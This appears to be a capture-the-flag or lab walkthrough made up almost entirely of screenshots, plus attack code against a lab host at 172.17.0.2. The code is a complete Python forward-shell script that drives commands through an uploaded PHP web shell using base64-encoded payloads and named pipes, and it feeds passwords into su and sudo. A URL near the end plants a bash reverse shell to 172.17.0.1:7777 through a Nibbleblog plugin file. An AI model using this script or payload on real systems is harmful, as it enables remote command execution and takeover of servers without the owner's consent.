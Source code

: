 ![](Pasted%20image%2020250224112721.png)

![](Pasted%20image%2020250224113243.png)

![](Pasted%20image%2020250224113426.png)

![](Pasted%20image%2020250224113710.png)

![](Pasted%20image%2020250224113731.png)

![](Pasted%20image%2020250224114130.png)

![](Pasted%20image%2020250224115315.png)

![](Pasted%20image%2020250224115453.png)

![](Pasted%20image%2020250224120034.png)

![](Pasted%20image%2020250224162035.png)

``` python
#!/usr/bin/python3

import requests, time, threading, signal, sys
from base64 import b64encode
from random import randrange
import re

class AllTheReads(object):
    def __init__(self, interval=1):
        self.interval = interval
        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        readoutput = """/bin/cat %s""" % (stdout)
        clearoutput = """echo '' > %s""" % (stdout)
        while True:
            output = RunCmd(readoutput)
            if output:
                RunCmd(clearoutput)
                print(output)
            time.sleep(self.interval)

def extract_pre_content(html):
    """
    Extrae el contenido dentro de las etiquetas <pre> de una respuesta HTML.
    """
    match = re.search(r'<pre>(.*?)</pre>', html, re.DOTALL)
    if match:
        return match.group(1).strip()
    return ""

def RunCmd(cmd):
    """
    Ejecuta un comando remoto a través de la vulnerabilidad RCE.
    """
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    payload = {
        'parameter': 'echo "%s" | base64 -d | sh' % (cmd)
    }
    response = requests.get('http://172.17.0.2/shell.php', params=payload, timeout=5).text
    result = extract_pre_content(response)
    return result

def WriteCmd(cmd):
    """
    Escribe un comando en el servidor remoto.
    """
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    payload = {
        'parameter': 'echo "%s" | base64 -d > %s' % (cmd, stdin)
    }
    response = requests.get('http://172.17.0.2/shell.php', params=payload, timeout=5).text
    result = extract_pre_content(response)
    return result

def ReadCmd():
    """
    Lee la salida del comando ejecutado en el servidor remoto.
    """
    GetOutput = """/bin/cat %s""" % (stdout)
    output = RunCmd(GetOutput)
    return output

def SetupShell():
    """
    Configura una shell remota utilizando named pipes (fifo).
    """
    NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
    try:
        RunCmd(NamedPipes)
    except:
        None
    return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
    """
    Maneja la señal de salida (Ctrl+C) y limpia los archivos temporales.
    """
    print("\n\n[*] Exiting...\n")
    print("[*] Removing files...\n")
    RunCmd(erasestdin)
    RunCmd(erasestdout)
    print("[*] All files have been deleted\n")
    sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

def prompt_for_password():
    """
    Pide al usuario que ingrese una contraseña (en caso de su o sudo).
    """
    password = input("Password: ")
    return password

def execute_shell_command(command, password=None):
    """
    Ejecuta un comando en la shell remota, interactuando si es necesario con su o sudo.
    """
    if command.startswith("su") or command.startswith("sudo su"):
        if password:
            # Ejecutar 'su' o 'sudo su' con la contraseña proporcionada
            command = f"echo '{password}' | {command}"
    result = WriteCmd(command)
    return result

while True:
    cmd = input(">>> ")

    if cmd.startswith("su") or cmd.startswith("sudo su"):
        password = prompt_for_password()  # Pide la contraseña
        result = execute_shell_command(cmd, password)
    else:
        result = WriteCmd(cmd + "\n")
    
    if result:
        print(result)
    else:
        print("No output or empty response.")
    
    time.sleep(1.1)
```

![](Pasted%20image%2020250225163304.png)

![](Pasted%20image%2020250225175529.png)

http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash%20-i%20>%26%20/dev/tcp/172.17.0.1/7777%200>%261

![](Pasted%20image%2020250226103856.png)

![](Pasted%20image%2020250226103812.png)
